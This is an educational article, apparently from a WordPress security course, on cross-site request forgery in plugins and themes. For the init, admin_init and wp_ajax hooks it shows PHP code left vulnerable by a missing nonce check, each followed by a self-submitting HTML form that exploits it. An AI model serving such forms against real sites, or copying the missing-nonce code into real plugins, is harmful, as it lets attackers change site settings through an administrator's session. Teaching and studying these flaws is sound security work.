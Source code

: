 ```yaml
---
title: Cross-Site Request Forgery (CSRF)
head:
    - tag: title
      content: Learn about Cross-Site Request Forgery (CSRF)
contributors:
    - rafiem
---
```



## Introduction

This article covers cases of possible CSRF on WordPress. This includes improper hook/function/code usage inside of the plugin/theme which can be used to trick privileged users into doing sensitive actions.

By default, processes on hooks or functions that are used on plugins or themes don't have a permission and nonce value check, that's why the developer needs to manually perform a permission check using [`current_user_can`](/academy/wordpress/wordpress-internals/functions/#current_user_can) function and the nonce value check using [`wp_verify_nonce`](/academy/wordpress/wordpress-internals/functions/#wp_verify_nonce), [`check_admin_referer`](/academy/wordpress/wordpress-internals/functions/#check_admin_referer) or [`check_ajax_referer`](/academy/wordpress/wordpress-internals/functions/#check_ajax_referer) functions.

<LinkCard
  title="Learn how to secure your code against CSRF"
  href="/academy/wordpress/securing-code/cross-site-request-forgery/"
/>

## `init` hook

For more details on the `init` hook, please refer to this [documentation](/academy/wordpress/wordpress-internals/hooks/#init-hook).

Example of vulnerable code :

```php
add_action("init", "check_if_update_2");

function check_if_update_2(){
    if(isset($_GET["update"])){
        if(current_user_can("manage_options")){
            update_option("user_data", sanitize_text_field($_GET_["data"]));
        }
    }
}
```

To exploit this, unauthenticated users just need to craft and serve a malicious HTML file and trick privileged users into visiting the HTML file to do the sensitive actions.


```html
<html>
  <body>
    <form action="<WORDPRESS_BASE_URL>" method="POST">
      <input type="hidden" name="update" value="1" />
      <input type="hidden" name="data" value="test" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

## `admin_init` hook

For more details on the `admin_init` hook, please refer to this [documentation](/academy/wordpress/wordpress-internals/hooks/#admin_init-hook).

Example of vulnerable code :

```php
add_action("admin_init", "delete_admin_menu_2");

function delete_admin_menu_2(){
    if(isset($_POST["delete"])){
        if(current_user_can("manage_options")){
            delete_option("custom_admin_menu");
        }
    }
}
```

To exploit this, unauthenticated users just need to craft and serve a malicious HTML file and trick privileged users into visiting the HTML file to do the sensitive actions.

```html
<html>
  <body>
    <form action="<WORDPRESS_BASE_URL>/wp-admin/admin-ajax.php?action=heartbeat" method="POST">
      <input type="hidden" name="delete" value="1" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

## `wp_ajax_{$action}` hook

For more details on the `wp_ajax_{$action}` hook, please refer to this [documentation](/academy/wordpress/wordpress-internals/hooks/#wp_ajax_action-hook).

Example of vulnerable code :

```php
add_action("wp_ajax_update_post_data", "update_post_data_2");

function update_post_data_2(){
    if(isset($_POST["update"])){
        $post_id = get_post($_POST["id"]);
        update_post_meta($post_id, "data", sanitize_text_field($_POST["data"]));
    }
}
```

To exploit this, unauthenticated users just need to craft and serve a malicious HTML file and trick privileged users into visiting the HTML file to do the sensitive actions.

```html
<html>
  <body>
    <form action="<WORDPRESS_BASE_URL>/wp-admin/admin-ajax.php" method="POST">
      <input type="hidden" name="action" value="update_post_data" />
      <input type="hidden" name="id" value="1" />
      <input type="hidden" name="update" value="1" />
      <input type="hidden" name="data" value="test" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```